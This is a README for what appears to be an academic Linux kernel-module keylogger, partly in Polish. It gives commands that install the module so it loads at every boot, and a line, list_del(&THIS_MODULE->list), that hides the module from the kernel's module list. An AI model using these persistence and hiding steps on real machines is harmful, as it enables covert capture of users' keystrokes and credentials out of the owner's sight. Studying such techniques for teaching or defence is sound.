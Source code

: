 # lkmKeylogger
Academic project - keylogger as a linux kernel module

-----
Włączanie modułu przy starcie systemu (załadowanie modułu)
-----

https://stackoverflow.com/questions/4356224/how-to-load-a-custom-module-at-the-boot-time-in-ubuntu
http://www.ouah.org/LKM_HACKING.html#I.6.

do pliku Makefile dodałem:

#skopiowanie modułu do folderu ze sterownikami

sudo cp mymodule.ko /lib/modules/$(shell uname -r)/kernel/drivers/

#dodanie modułu do pliku automatycznie uruchamiajacego module-at-the-boot-time-in-ubuntu

echo 'mymodule' | sudo tee -a /etc/modules

#włączenie modułu

sudo insmod keylogger.ko

#Update the list of module dependencies.

sudo depmod

do pliku keylogger.c dodałem:

#Ukrywanie modulu na liscie

list_del(&THIS_MODULE->list);


-----
Stworznie bufora zwalnianego klawiszem <ENTER>
-----

working!
